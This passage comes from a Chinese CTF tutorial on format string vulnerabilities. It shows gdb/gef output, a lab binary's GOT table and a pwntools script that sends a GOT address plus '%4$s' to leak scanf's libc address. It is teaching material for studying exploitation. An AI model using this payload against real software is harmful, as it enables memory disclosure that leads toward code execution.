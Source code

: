 ```shell
0xf7ffb000 0xf7ffc000 0x00000000 rw-
0xf7ffc000 0xf7ffd000 0x00022000 r-- /lib/i386-linux-gnu/ld-2.23.so
0xf7ffd000 0xf7ffe000 0x00023000 rw- /lib/i386-linux-gnu/ld-2.23.so
0xffedd000 0xffffe000 0x00000000 rw- [stack]
gef➤  x/x 0x73243425
0x73243425:	Cannot access memory at address 0x73243425
```

显然0xffffcd20处所对应的格式化字符串所对应的变量值0x73243425并不能够被改程序访问，所以程序就自然崩溃了。

那么如果我们设置一个可访问的地址呢？比如说scanf@got，结果会怎么样呢？应该自然是输出scanf对应的地址了。我们不妨来试一下。

首先，获取scanf@got的地址，如下

> 这里之所以没有使用printf函数，是因为scanf函数会对0a，0b，0c，00等字符有一些奇怪的处理，，导致无法正常读入，，感兴趣的可以试试。。。。

```shell
gef➤  got

/mnt/hgfs/Hack/ctf/ctf-wiki/pwn/fmtstr/example/leakmemory/leakmemory：     文件格式 elf32-i386

DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE
08049ffc R_386_GLOB_DAT    __gmon_start__
0804a00c R_386_JUMP_SLOT   printf@GLIBC_2.0
0804a010 R_386_JUMP_SLOT   __libc_start_main@GLIBC_2.0
0804a014 R_386_JUMP_SLOT   __isoc99_scanf@GLIBC_2.7
```

下面我们利用pwntools构造payload如下

```python
from pwn import *
sh = process('./leakmemory')
leakmemory = ELF('./leakmemory')
__isoc99_scanf_got = leakmemory.got['__isoc99_scanf']
print hex(__isoc99_scanf_got)
payload = p32(__isoc99_scanf_got) + '%4$s'
print payload
gdb.attach(sh)
sh.sendline(payload)
sh.recvuntil('%4$s\n')
print hex(u32(sh.recv()[4:8])) # remove the first bytes of __isoc99_scanf@got
sh.interactive()

```

其中，我们使用gdb.attach(sh)来进行调试。当我们运行到第二个printf函数的时候(记得下断点)，可以看到我们的第四个参数确实指向我们的scanf的地址，这里输出

```python
 → 0xf7615670 <printf+0>       call   0xf76ebb09 <__x86.get_pc_thunk.ax>
   ↳  0xf76ebb09 <__x86.get_pc_thunk.ax+0> mov    eax, DWORD PTR [esp]
      0xf76ebb0c <__x86.get_pc_thunk.ax+3> ret
      0xf76ebb0d <__x86.get_pc_thunk.dx+0> mov    edx, DWORD PTR [esp]
      0xf76ebb10 <__x86.get_pc_thunk.dx+3> ret
───────────────────────────────────────────────────────────────────[ stack ]────
['0xffbbf8dc', 'l8']
8
0xffbbf8dc│+0x00: 0x080484ce  →  <main+99> add esp, 0x10	 ← $esp
0xffbbf8e0│+0x04: 0xffbbf8f0  →  0x0804a014  →  0xf76280c0  →  <__isoc99_scanf+0> push ebp
0xffbbf8e4│+0x08: 0xffbbf8f0  →  0x0804a014  →  0xf76280c0  →  <__isoc99_scanf+0> push ebp
0xffbbf8e8│+0x0c: 0x000000c2
0xffbbf8ec│+0x10: 0xf765c6bb  →  <handle_intel+107> add esp, 0x10
0xffbbf8f0│+0x14: 0x0804a014  →  0xf76280c0  →  <__isoc99_scanf+0> push ebp	 ← $eax
0xffbbf8f4│+0x18: "%4$s"
0xffbbf8f8│+0x1c: 0x00000000

```
